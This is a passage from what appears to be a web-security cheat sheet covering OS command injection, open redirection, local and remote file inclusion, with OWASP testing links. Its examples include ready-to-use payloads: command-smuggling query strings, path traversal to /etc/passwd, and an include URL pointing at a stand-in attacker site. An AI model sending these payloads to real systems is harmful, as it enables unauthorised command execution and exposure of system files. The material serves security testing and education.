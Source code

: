 OS Command Injection is a technique where a user injects OS commands into web application interface with the intention of those commands executing on the web server.

[OWASP - Testing for Command Injection](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013))

**Examples**

```text
http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|
http://sensitive/something.php?dir=%3Bcat%20/etc/passwd

Doc=Doc1.pdf+|+Dir c:\
```

#### Open Redirection

Open redirection is an input validation flaw that exists when an application accepts an user controlled input which specifies a link that leads to an external URL that could be malicious.

[OWASP - Testing for Client Side URL Redirect](https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004))

**Examples**

```text
http://www.target.site?#redirect=www.fake-target.site
http://www.target.site??url=http://www.fake-target.site
```

#### Local File Inclusion (LFI)

Local File Inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.

[OWASP - Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

**Examples**

```text
http://vulnerable_host/preview.php?file=../../../../etc/passwd
http://vulnerable_host/preview.php?file=../../../../etc/passwd%00
```

#### Remote File Inclusion (RFI)

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

[OWASP - Testing for Remote File Inclusion](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)

**Examples**

```text
http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```
